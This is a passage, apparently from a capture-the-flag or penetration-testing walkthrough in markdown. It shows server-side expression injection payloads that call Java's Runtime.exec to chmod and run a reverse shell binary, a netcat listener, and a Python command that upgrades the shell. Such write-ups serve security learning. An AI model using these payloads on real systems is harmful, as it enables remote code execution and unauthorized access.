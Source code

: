 ![](./IMG/40.png)
![](./IMG/41.png)
- Change reverse shell permission 
Command : 
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./rev.elf")}

```
- set up the reverse connect
```
nc -nlvp 1337
```

![](./IMG/42.png)
- Execute reverse shell from RCE
Command : 
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./rev.elf")}

```
![](./IMG/43.png)

- Beauty the shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
